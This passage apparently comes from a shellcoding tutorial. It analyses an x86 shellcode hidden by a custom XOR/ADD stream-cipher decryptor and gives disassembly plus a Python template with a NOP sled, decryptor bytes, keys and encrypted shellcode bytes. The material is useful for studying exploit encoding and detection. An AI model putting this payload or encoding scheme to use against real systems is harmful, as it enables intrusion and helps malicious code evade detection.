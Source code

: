 ```objdump-c
a:   83 e8 09               sub    $0x9,%eax
d:   34 9f                  xor    $0x9f,%al
f:   32 46 ff               xor    -0x1(%esi),%al
```

Summing up, the shellcode implements a custom *stream cipher algorithm*:
- `XOR` *static*
- `XOR` *pseudorandom*
- `ADD` *static*

---

## Shellcoding [4/7 analysis | shellcode]

### Encrypted shellcode

The following part of the binary is the *shellcode*:

```objdump-c
1d:  31 70 aa               xor    %esi,-0x56(%eax)
20:  92                     xchg   %eax,%edx
21:  d7                     xlat   %ds:(%ebx)
22:  2d ce af e1 a8         sub    $0xa8e1afce,%eax
27:  cc                     int3
28:  8d a8 e1 db 9d a1      lea    -0x5e62241f(%eax),%ebp
2e:  81                     .byte  0x81
2f:  fe                     (bad)
30:  ba                     .byte  0xba
31:  db                     .byte  0xdb
```

Each instruction will be:
1. *Decrypted* by the decryptor
2. *Replaced* with the decrypted bytes.

---

## Shellcoding [5/7 structure]

```python
# 1. NOP sledge
"\x90" * 1000 + # <- NOP sledge size is 1000
# 2. Shellcode Decrypter
"\x29\xc9\x74\x14\x5e\xb1" +
"\x14" + # <- shellcode length
"\x46\x8b\x06\x83\xe8" +
"\x09" + # <- ADD key
"\x34" +
"\x9f" + # <- XOR key
"\x32\x46\xff\x88\x06\xe2\xf1\xeb\x05\xe8" +
"\xe7\xff\xff\xff" +
# 3. Crypted Shellcode
"\x31\x70\xaa\x92\xd7\x2d\xce\xaf\xe1\xa8" +
"\xcc\x8d\xa8\xe1\xdb\x9d\xa1\x81\xfe\xba" +
"\xdb"
```
